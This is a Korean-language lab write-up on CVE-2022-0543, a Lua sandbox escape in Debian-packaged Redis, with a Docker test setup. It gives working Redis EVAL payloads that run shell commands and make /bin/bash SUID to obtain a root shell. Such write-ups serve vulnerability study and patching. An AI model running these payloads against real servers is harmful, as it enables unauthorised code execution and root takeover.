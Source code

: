 # CVE-2022-0543

**Contributors**

-   [박연준(@yeo0n)](https://github.com/yeo0n)

<br/>

### 요약
-   Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 탈출하여 호스트에서 임의의 코드를 실행할 수 있습니다.
>   https://github.com/vulhub/vulhub/tree/master/redis/CVE-2022-0543
>   https://ine.com/blog/cve-20220543-lua-sandbox-escape-in-redis
>   https://www.linode.com/ko/blog/security/linode-security-digest-cassandra-redis-snap-confine/
>   https://nvd.nist.gov/vuln/detail/CVE-2022-0543

<br/>

### Redis란?

-   Redis는 Key, Value 구조의 비정형 데이터를 저장하고 관리하기 위한 오픈 소스 기반의 비관계형 데이터 베이스 관리 시스템 (DBMS)입니다.
-   데이터베이스, 캐시, 메세지 브로커로 사용되며 인메모리 데이터 구조를 가진 저장소입니다.

<br/>

### CVE-2022-0543 소개

-   2022년 2월 Redis의 심각한 취약점이 보고되었습니다. Redis는 패키징 문제로 인해 (Debian 관련) Lua 샌드박스 이스케이프가 발생하기 쉽고 이로 인해 원격 코드가 실행될 수 있는 것으로 나타났습니다.
-   주목해야 할 중요한 점은 이 취약점은 Debian 및 Debian 파생 Linux 배포만에만 적용된다는 것입니다. 업스트림 Redis는 영향을 받지 않습니다.
-   Reginaldo Silva가 Debian/Ubuntu의 패키징 문제로 인해 임의의 Lua 스크립트를 실행할 수 있는 원격 공격자가 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있음을 발견했습니다.
-   근본적인 원인은 Lua 라이브러리가 Debian 동적 라이브러리로 제공됩니다. "패키지"변수가 자동으로 채워지므로 임의의 Lua 기능에 대한 액세스가 허용됩니다. 예를 들어 이 기능은 "os"모듈의 "execute" 함수로 확장되면 임의의 Lua 코드를 실행할 수 있는 공격자가 임의의 셸 명령을 실행할 수 있습니다.

<br/>

### PoC 코드

```
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

<br/>

### 환경 구성 및 실행

-   터미널 창을 연 후, 다음 명령을 실행하여 Redis 서버 5.0.7 테스트 환경을 실행합니다.
```
docker compose up -d
```

-   서버가 시작된 후 다음 명령어를 통해 자격 증명 없이 이 서버에 연결할 수 있습니다. Redis 서버의 기본 설치에는 비밀번호가 없는 기본 사용자가 함께 제공됩니다. `redis-cli`
```
redis-cli -h your-ip
```

-   exit 명령어로 연결을 끊은 후, Docker로 연 redis 서버에서 다음 명령어로 실행 중인 프로세스를 식별합니다. (기본 포트인 6379에서 수신 대기중이며, Root로 실행되고 있음을 확인)
```
ps aux
```

-   Redis 서버에 다시 연결합니다.
```
redis-cli
```
![](1.png)

-   PoC는 공유 Lua 라이브러리를 참조하기 때문에 사용 가능한 공유 Lua 라이브러리를 확인합니다.
```
ls -al /usr/lib/x86_64-linux-gnu/liblua*
```
![](2.png)

-   redis-cli로 연결한 후 다음 PoC 코드를 입력합니다. (주의할 점: touch 뒤에 있는 경로를 pwd로 확인하여 확인하기 쉽게 변경)
```
redis cli
eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("touch /root/redis_poc"); return 0' 0
```

-   이제 redis-cli를 종료하고 redis_poc 파일을 확인합니다.
```
exit
ls -al
```
![](3.png)

-   redis-cli에 연결하고 다음 `id`의 os 명령을 실행하는 페이로드를 입력합니다.
```
redis-cli
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![](4.png)

-   다음으로 루트 셸을 얻기 위해 Lua 샌드박스 이스케이프 익스플로잇을 활용하여 `bash`를 `SUID` 루트 바이너리로 만듭니다.
```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("chmod +s /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("ls -al /bin/bash", "r"); local res = f:read("*a"); f:close(); return res' 0
```
![](5.png)

-   redis-cli를 종료하고 루트 셸을 얻기 위해 루트 사용자로 로그인합니다.
```
exit
/bin/bash -p
id
```
![](6.png)

<br/>

### 정리

-   이 취약점은 Redis가 데비안 계열의 우분투 패키징 문제로 Lua 샌드박스를 이스케이프하여 호스트에서 임의의 코드를 실행할 수 있었습니다. 따라서 안전한 redis 서버를 운영하기 위해서 주기적으로 redis 버전을 확인하고 업데이트 하는 것이 필요합니다.
